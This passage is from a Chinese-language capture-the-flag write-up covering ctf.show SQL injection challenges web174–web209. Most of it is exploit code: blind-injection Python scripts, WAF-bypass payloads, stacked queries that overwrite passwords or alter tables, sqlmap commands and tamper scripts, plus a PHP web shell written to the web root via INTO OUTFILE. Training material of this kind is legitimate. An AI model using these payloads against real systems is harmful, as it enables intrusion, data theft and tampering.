      $ret['msg']='查询成功';
}     
```

由于flag中含有数字，哪怕像之前的通过to_base64等编码后，仍然不可避免数字的出现

所以这题我们要用到布尔盲注

放个脚本

```python
# @Author:Y4tacker
import requests

url = "http://e076200d-5e74-4121-b2fc-04153243f7a3.chall.ctf.show/api/v4.php?id=1' and "

result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        payload = f'1=if(ascii(substr((select  password from ctfshow_user4 limit 24,1),{i},1))>{mid},1,0) -- -'
        r = requests.get(url + payload)
        if "admin" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)

```

又或者通过replace方法将数字替换成其他的合法字符

```
1' union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,1,'A'),2,'B'),3,'C'),4,'D'),5,'E'),6,'F'),7,'G'),8,'H'),9,'I'),0,'J'),'b' from ctfshow_user4 where username='flag' %23
```


拿到flag后替换回去就行

```python
import base64
 
flag64 = "ctfshow{GHIeaIeG-AGaG-DAab-HHae-eEaFcHFIEbef}"
 
flag = flag64.replace("A", "1").replace("B", "2").replace("C", "3").replace("D", "4").replace("E", "5").replace("F", "6").replace("G", "7").replace("H", "8").replace("I", "9").replace("J", "0")
 
print(flag)
```

又或者


```
1' union select 1,"<?=eval($_POST[1]);?>" into outfile "/var/www/html/shell.php" --+ 
```


#### web175

```
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
      
```

检查变量 `$ret` 经过 `json_encode` 编码后的结果中是否只包含 ASCII 字符（即字符编码范围在 `\x00` 到 `\x7f` 之间）。如果不满足这个条件，就将 `$ret` 数组中的 `msg` 键的值设置为 `'查询成功'`。

也就是没有任何回显

方法一：**时间盲注**

大佬的脚本，用的二分法

```python
# @Author:Y4tacker
import requests

url = "http://7eac161c-e06e-4d48-baa5-f11edaee7d38.chall.ctf.show/api/v5.php?id=1' and "

result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        payload = f'1=if(ascii(substr((select  password from ctfshow_user5 limit 24,1),{i},1))>{mid},sleep(2),0) -- -'
        try:
            r = requests.get(url + payload, timeout=0.5)
            tail = mid
        except Exception as e:
            head = mid + 1

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```

 方法二:利用读写文件写入网站根目录
http://32a74685-8c52-4756-a326-69a2eb56e70f.challenge.ctf.show/api/v5.php?id=1' union select 1,password from ctfshow_user5 into outfile '/var/www/html/1.txt'--+&page=1&limit=10
之后访问http://32a74685-8c52-4756-a326-69a2eb56e70f.challenge.ctf.show/1.txt


#### **过滤注入**（对传入参数进行过滤）

#### web176

```
//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

方法一：万能钥匙

```
1' or 1=1--+
```


能找到flag

方法二:大小写绕过

```
1' uNion sElect 1,2,password from ctfshow_user --+
```


#### web177

**黑名单**：空格、+

**空格替代**：%20（普通空格）、%09（水平制表符）、%0a（换行符）、%0b（回车符）、%0c（新一页）、%0d（垂直制表符）、%a0、()、``、\\**\\

可以用\\**\\绕过

```
1'/**/union/**/select/**/password,1,1/**/from/**/ctfshow_user/**/where/**/username/**/='flag'%23
```

方法二:万能钥匙


#### web178

**黑名单增加**：%20、*

```
1'%09union%09select%09password,1,1%09from%09ctfshow_user%09where%09username%09='flag'%23
```

方法二:万能钥匙


#### web179

**黑名单增加**：%09、%0a、%0b、%0d

这题把%09也过滤了，这题空格可以用%0c绕过

```
1'union%0cselect%0c1,2,password%0cfrom%0cctfshow_user%23
```


#### web180

**黑名单增加**：#

可以用--%0c代替#(%23)

```
1'union%0cselect%0c1,2,password%0cfrom%0cctfshow_user--%0c
```

或者直接万能密码

```
id=-1'or(id=26)and'1'='1
```


#### web181

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```

> - **`/` 和 `/i`**：正则表达式的定界符，`/` 表示正则表达式的开始和结束，`i` 是修饰符，表示不区分大小写进行匹配。
>
> - **`|\*`**：匹配空格字符（）和星号（`*`），这两个字符在 SQL 注入中可能会被用于构造恶意语句。
>
> - `\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0`
>
>   ：分别匹配不同的 ASCII 控制字符和特殊空白字符，例如：
>
>   - `\x09`：水平制表符（Tab）
>   - `\x0a`：换行符（LF）
>   - `\x0b`：垂直制表符
>   - `\x0c`：换页符
>   - `\x00`：空字符
>   - `\x0d`：回车符（CR）
>   - `\xa0`：不间断空格
>
> - **`\x23|\#`**：匹配井号（`#`），在 SQL 中，`#` 通常用于注释，攻击者可能会利用注释来绕过 SQL 语句的检查。
>
> - **`file|into|select`**：匹配关键字 `file`、`into` 和 `select`，这些关键字在 SQL 注入和文件包含攻击中经常被使用。

**方法一**  用like来匹配关键词flag

```
-1'%0cor%0cusername%0clike%0c'flag
```

**方法二**

```
-1'or(id=26)and'1
```
看到一篇大佬的文章，感觉明了不少

[ctfshow Web入门SQL注入 web171-197 Writeup - X1r0z Blog](https://exp10it.io/2022/07/ctfshow-web-sqli-171-197-writeup/#web178)


#### web182

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
  }
```

**黑名单增加**：flag

这题可以用到like进行模糊查询


payload:

```
-1'or%0cusername%0clike%0c'fl%
```

或者继续使用上一题的方法二


#### web183

查询语句

```
//拼接sql语句查找指定ID用户
$sql = "select count(pass) from ".$_POST['tableName'].";";  
```

返回逻辑

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
```

查询结果

```
//返回用户表的记录总数
      $user_count = 0;
```

题目大概的意思就是我们传入表名进行查询，如果表名正确，就会返回用户表记录总数1，如果表名错误则返回0，且每次最多只会返回1，根据这个我们可以尝试布尔盲注，如果我们知道表名(ctfshow_user)和列名(pass)，我们就能通过布尔盲注拿到flag

Y4tacker大佬的脚本

```
import requests

url = 'http://ee0ad3ab-e8f0-4183-97a8-aa3c5bcbe4f4.challenge.ctf.show/select-waf.php'
str = r"{abcdefghijklmnopqrstuvwsyz-0123456789}"
flag = ""
index = 0
while True:
    for i in str:
        data = {
            'tableName': f"(ctfshow_user)where(substr(pass,{index},1))regexp('{i}')"
        }
        r = requests.post(url, data=data)
        if r.text.find("$user_count = 1;") > 0:
            flag += i
            print(flag)
            break
    index += 1
```


不是为什么我flag的马甲是这样的


#### web184

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

因为这题where被ban了，我们可以利用right join进行代替

依旧是布尔盲注


POC

```
import requests

url = 'http://effed757-6639-46a9-9103-22fedb04bb41.challenge.ctf.show/select-waf.php'
charset = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}'
flag = ''

for i in range(1, 50):  # 假设 flag 最长 50 个字符
    for j in charset:
        payload = f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{i},1) regexp char({ord(j)}))"
        data = {
            'tableName': payload
        }
        response = requests.post(url, data=data)
        if "some_success_condition" in response.text:
            flag += j
            print(flag)
            break
```


#### web185

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

这题把数字ban掉了

这其实就导致了我们在构造payload的时候没办法直接使用数字

但是我们可以用true来代替构造出数字

我们知道true = 1

那2就可以用true+true来表示，以此类推

```python
import requests
url = "http://33578c7b-f34a-422b-87a5-a8accac68645.challenge.ctf.show/select-waf.php"
flag = ''


def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
    return num


for i in range(45):
    if i <= 5:
        continue
    for j in range(127):
        data = {
            "tableName": f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{createNum(i)},{createNum(1)})regexp(char({createNum(j)})))"
        }
        r = requests.post(url, data=data)
        if r.text.find("$user_count = 43;") > 0:
            if chr(j) != ".":
                flag += chr(j)

                print("[*]result is:"+flag.lower())
                if chr(j) == "}":
                    exit(0)
                break

```


#### web186

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }

```

解法和上题一样


#### web187

```
返回逻辑
$username = $_POST['username'];
$password = md5($_POST['password'],true);

//只有admin可以获得flag
if($username!='admin'){
   $ret['msg']='用户名不存在';
   die(json_encode($ret));
}
      
```


> [password=md5($pass,true)绕过、弱类型、MD5强碰撞_select * from 'admin' where password=md5($pass,tru-CSDN博客](https://blog.csdn.net/qq_58784379/article/details/120504844)
>
> 
>
> 

payload:

```
admin/ffifdyop
```


抓个包


#### web188

```
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";
```


```
返回逻辑


  //用户名检测
  if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\'|\"/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
      
```

> 
>
> [ctfshow-sql注入-超详解(172-200)_ctfshow 172-CSDN博客](https://blog.csdn.net/qq_50589021/article/details/119426002)

所以payload为

```
0/0
或者
1||1/0
```

https://stackoverflow.com/questions/18883213/why-select-from-table-where-username-0-shows-all-rows-username-column-is-v


#### web189

```
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";
```

```

  //用户名检测
  if(preg_match('/select|and| |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleep|benchmark/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }
     
```

这题在输入0/0的时候会显示密码错误，而在输入1/0的时候则会显示查询错误

可以通过这个来进行布尔盲注，即正确时系统返回查询错误，错误时系统返回密码错误

```python
# -*- coding: utf-8 -*-
# @Author  : Yn8rt
# @Time    : 2021/7/30 15:48
# @Function:
import requests
import sys
import json

url = 'http://98e1809d-5de9-4f68-b45f-d03388b1dae8.challenge.ctf.show/api/'
flag = 'ctfshow{'
letter = '0123456789abcdefghijklmnopqrstuvwxyz-{}'

for i in range(100):
    for j in letter:
        payload = {
            "username": "if(load_file('/var/www/html/api/index.php')regexp('{}'),0,1)".format(flag + j),
            "password": "0"

        }
        r = requests.post(url=url,data=payload)
        #print(r)
        if "密码错误" == r.json()['msg']:
            flag += j
            print(flag)
            break
        if '}' in flag:
            sys.exit()
```


#### web190

查询语句

```
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
```

返回逻辑

```
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
      
```


所以这题依旧可以进行布尔盲注

```python
# @Author:Y4tacker
import requests

url = "http://eb2e57dd-6c44-4140-9052-f549f647caa9.challenge.ctf.show/api/"

result = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        # 查flag
        payload = "select group_concat(f1ag) from ctfshow_fl0g"
        data = {
            'username': f"admin' and if(ascii(substr(({payload}),{i},1))>{mid},1,2)='1",
            'password': '1'
        }

        r = requests.post(url,data=data)
        if "密码错误"  == r.json()['msg']:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)


```


#### web191

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

这题和上题一样，只是加了点ban掉了ascii

我们用ord代替ascii即可

```python
# @Author:Y4tacker
import requests

url = "http://92a52ee7-65ff-4fff-b3d9-ec90f74fd2f5.challenge.ctf.show/api/"

result = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        # 查flag
        payload = "select group_concat(f1ag) from ctfshow_fl0g"
        data = {
            'username': f"admin' and if(ord(substr(({payload}),{i},1))>{mid},1,2)='1",
            'password': '1'
        }

        r = requests.post(url,data=data)
        if "密码错误"  == r.json()['msg']:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)


```


#### web192

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

不给我转是吧，那我不转了

```python
import requests
import string

url = "http://20b20943-6b5a-464b-b13e-99ab8e2644b7.challenge.ctf.show/api/"
flagstr=" _{}-" + string.ascii_lowercase + string.digits
flag = ''
for i in range(1,45):
    for j in flagstr:
        payload = f"admin' and if(substr((select group_concat(f1ag) from ctfshow_fl0g),{i},1)regexp('{j}'),1,2)='1"
        data = {
            'username': payload,
            'password': '1'
        }
        r = requests.post(url, data=data)
        if "密码错误" == r.json()['msg']:
            flag += j
            print(flag)
            if "}" in flag:
                exit(0)
            break

```

其实也差不多

二分法脚本

```python

# 用了二分法 dejavu~~~
import requests

url = "http://c9b03201-bcdf-42ce-ac5b-c546603c1848.challenge.ctf.show:8080/api/"
# 表名 CtFsHOw{FL0G,CtFsHOw{usEr
# payload = "0' or if(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1)>'{}',1,0) -- "
# 列名 ID,F1AG,ID,usErNAME,pAss
# payload = "0' or if(substr((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1)>'{}',1,0) -- "
# flag
payload = "0' or if(substr((select f1ag from ctfshow_fl0g),{},1)>'{}',1,0) -- "
true_flag = "\\u5bc6\\u7801\\u9519\\u8bef"
result = ""
index = 1
while True:
    start = 32
    end = 127
    while not (abs(start-end) == 1 or start == end):
        p = (start + end) // 2
        data = {
            "username": payload.format(index, chr(p)),
            "password": 0
        }
        response = None
        while True:
            try:
                response = requests.post(url, data=data)
            except:
                continue
            break
        if true_flag in response.text:
            start = p
        else:
            end = p
    if end < start:
        end = start
    result += chr(end)
    print(f"[*] result: {result}")
    index += 1
```


#### web193

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }

```

**新增waf**：substr

没办法进行截断，但其实问题不大

```python
import requests
import sys
url = 'http://a4ac8172-cadd-42ca-a986-771b4ab0400f.challenge.ctf.show/api/'
result = ''
letter = '0123456789abcdefghijklmnopqrstuvwxyz-_,{}'

for i in range(100):
    for j in letter:
        # 查表
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        # 查flag
        payload = "select group_concat(f1ag) from ctfshow_flxg"
        
        data={
            'username':"admin' and if(({}) like '{}%',1,2) ='1".format(payload,result+j),
            'password':1
        }
        res = requests.post(url=url,data=data)
        if "密码错误" == res.json()['msg']:
            result += j
            print(result)
            break
        if "}" in result:
            exit(0)

```

我们可以用like来达到差不多的效果

这题也可以用char,left,right,substring之类的方法


#### web194

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

**新增waf**：char|left|right|substring

上题的方法依旧适用


#### web195

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

根据提示堆叠注入

其实就是在;后面再执行任意的sql命令

这里直接改密码

```
payload="0x61646d696e;update`ctfshow_user`set`pass`=0x313131;"
# 至于为什么非得用十六进制登录，是因为下面这个没有字符串单引号包围
sql = "select pass from ctfshow_user where username = {$username};";
# @Author:Y4tacker
```

```
admin <=> 0x61646d696e
111<=>0x313131
```


#### web196

```
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
      
返回逻辑


  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if(strlen($username)>16){
    $ret['msg']='用户名不能超过16个字符';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
      
```

这题应该是bug了，select没被waf


在 PHP 里，当使用数据库查询语句从数据库中获取结果集时，通常会逐行遍历结果集。每一行数据可以用一个数组来表示，`$row[0]` 指的是这一行数组中的第一个元素。

payload:

```
0;select(2)
2
```


#### web197

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
      
返回逻辑


  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set//i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
      
```

这把不能用select，那我们只需要想办法给$row[0]一个确定的值即可

比如

```
username: 1;show tables 
password: ctfshow_user
```

其他的一些骚操作

重写ctfshow_user表


把密码和id列互换之后爆密码（实际上在爆id）

```python
# @Author:Y4tacker
import requests

url = "http://b126bc7c-2b32-461d-9520-30d5baf7a152.chall.ctf.show/api/"
for i in range(100):
    if i == 0:
        data = {
            'username': '0;alter table ctfshow_user change column `pass` `ppp` varchar(255);alter table ctfshow_user '
                        'change column `id` `pass` varchar(255);alter table ctfshow_user change column `ppp` `id` '
                        'varchar(255);',
            'password': f'{i}'
        }
        r = requests.post(url, data=data)
    data = {
        'username': '0x61646d696e',
        'password': f'{i}'
    }
    r = requests.post(url, data=data)
    if "登陆成功" in r.json()['msg']:
        print(r.json()['msg'])
        break
```

#### web198

同web197

#### web199

通解一把梭

#### web200

通解一把梭

#### web190-web200通解

```
username=0;show tables;
pass=ctfshow_user
```


#### sqlmap的使用

#### web201

```
 sqlmap最新版下载
 使用--user-agent 指定agent
 使用--referer 绕过referer检查
```

```
检测注入类型
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/sqlmap.php/api/?id= --user-agent sqlmap --referer ctf.show

爆数据库
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show --dbs

爆表
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D 
ctfshow_web --tables 

爆列
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D 
ctfshow_web -T ctfshow_user --columns

爆值
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user --dump 
```


#### web202

```
 sqlmap最新版下载

 使用--data 调整sqlmap的请求方式
```


```
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."';";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

通过向命令行加入--data参数转化请求方式为post

```
sqlmap -u http://e39cef84-16aa-4167-b5d8-2609318ff7cc.challenge.ctf.show/api/ --data 'id=1' --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user --dump 
```


#### web203

```
 sqlmap最新版下载
 使用--method 调整sqlmap的请求方式
```

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."';";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

--headers="Content-Type: text/plain" 以表单形式发送

```
sqlmap -u "http://29e626b4-75fb-4058-98af-126d2bf725c5.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" -D ctfshow_web -T ctfshow_user -C pass --dump 
```


#### web204

```
使用--cookie 提交cookie数据
```

payload:

```
 sqlmap -u "http://c07422b1-5bde-4baa-9e8c-73ef4edfa83a.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID:eqf4q2s5ma4u4vtj31sf25lbp5;ctfshow:d5d0917
6f63d87074e926a342a996872" -D ctfshow_web -T ctfshow_user -C pass --dump
```


#### web205

```
api调用需要鉴权
```

通过抓包分析，在每次请求`url/api/index.php`之前需要先请求`URL/api/getTokn.php`


payload：

```
sqlmap -u "http://24e98b18-4f9a-4a11-a265-5022e0e3fb05.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=60prkqe8189934t5pv3ikepa16" --safe-url="http://24e98b18-4f9a-4a11-a265-5022e0e3fb05.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flax --dump
```


#### web206

```
 sql需要闭合
```

```
//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
      
```

sqlmap会自动构造闭合，所以跟前一题没什么区别

但是也可以手动构造一下

payload:

```
根据sql语句，我们采用“)#”的方式进行右闭合。----suffix=")#"
执行sqlmap命令行
sqlmap -u "http://aae90b40-e094-482a-bbe1-eabb586a4291.challenge.ctf.show/api/index.php" --data "id=1" --user-agent=sqlmap --referer=ctf.show --method=put --headers="Content-Type:text/plain" --cookie="PHPSESSID=sie3k7c33euvbk2s2753f6n0j0;" --safe-url="https://aae90b40-e094-482a-bbe1-eabb586a4291.challenge.ctf.show/api/getToken.php" --safe-freq=1 --suffix=")#" --dbs

sqlmap -u "http://00b4cc54-fdc1-4b6a-ada7-bc509824917a.challenge.ctf.show/api/index.php" --data "id=1" --user-agent=sqlmap --referer=ctf.show --method=put --headers="Content-Type:text/plain" --cookie="PHPSESSID=lb4lslploh7thdl0hdsd1008f9;" --safe-url="https://00b4cc54-fdc1-4b6a-ada7-bc509824917a.challenge.ctf.show/api/getToken.php" --safe-freq=1 --suffix=")#" -D ctfshow_web --tables

sqlmap -u http://52acc440-2ed1-4b93-b3af-171d78632ae7.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --referer=ctf.show --dbms=mysql -D "ctfshow_web" -T "ctfshow_flaxc" -C "flagv" --dump  --headers="Content-Type: text/plain" --safe-url=http://52acc440-2ed1-4b93-b3af-171d78632ae7.challenge.ctf.show/api/getToken.php --safe-freq=1 
```


#### web207

[Sqlmap Tamper 编写](https://y4er.com/post/sqlmap-tamper/)

示例

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW # 当前脚本调用优先等级

def dependencies(): # 声明当前脚本适用/不适用的范围，可以为空。
    pass

def tamper(payload, **kwargs): # 用于篡改Payload、以及请求头的主要函数
    return payload
```

题目


```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   return preg_match('/ /', $str);
  }
```

这里会将waf中的关键词替换成空格

放一个Y4tacker大佬的脚本

```python
#!/usr/bin/env python
"""
Author:Y4tacker
"""

# 假设在Python 3环境中运行，将xrange替换为range
# 从lib.core.enums模块中导入PRIORITY枚举类型
from lib.core.enums import PRIORITY

# 设置脚本的优先级为低
__priority__ = PRIORITY.LOW

def tamper(payload, **kwargs):
    """
    篡改函数，调用space2comment函数对有效负载进行处理
    :param payload: 待处理的有效负载
    :param kwargs: 其他关键字参数
    :return: 处理后的有效负载
    """
    payload = space2comment(payload)
    return payload

def space2comment(payload):
    """
    将有效负载中的空格字符替换为换行符
    :param payload: 待处理的有效负载
    :return: 处理后的有效负载
    """
    retVal = payload
    if payload:
        retVal = ""
        # 用于跟踪是否在单引号内
        quote = False
        # 用于跟踪是否在双引号内
        doublequote = False
        # 用于跟踪是否遇到第一个空格
        firstspace = False

        for i in range(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += chr(0x0a)
                    continue

            elif payload[i] == '\'':
                # 取反quote的值
                quote = not quote

            elif payload[i] == '"':
                # 取反doublequote的值
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += chr(0x0a)
                continue

            retVal += payload[i]

    return retVal
```

其实这段代码的目的就是将payload中的空格替换成换行符

其实直接用sqlmap自带的sapce2comment模板

```
sqlmap -u "http://7bf5dfc3-3078-441f-b245-64dab6933839.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=btkhe9vojj5a7piadlc51ubifk;" --referer=ctf.show -D ctfshow_web --safe-url="http://7bf5dfc3-3078-441f-b245-64dab6933839.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=space2comment -T ctfshow_flaxca --dump
```


#### web208

同上一题

```
sqlmap -u "http://f287c31a-5cae-478d-af39-de7010c92def.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=3e08elobpci83dm5l8mn4hd18k;" --referer=ctf.show -D ctfshow_web --safe-url="http://f287c31a-5cae-478d-af39-de7010c92def.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=space2comment -T ctfshow_flaxcac --dump
```


#### web209

这题新增了点waf

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   //TODO 未完工
   return preg_match('/ |\*|\=/', $str);
  }
```

Y4tacker大佬的tamper

```python
#!/usr/bin/env python
"""
Author:Y4tacker
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW


def tamper(payload, **kwargs):
    payload = space2comment(payload)
    return payload


def space2comment(payload):
    retVal = payload
    if payload:
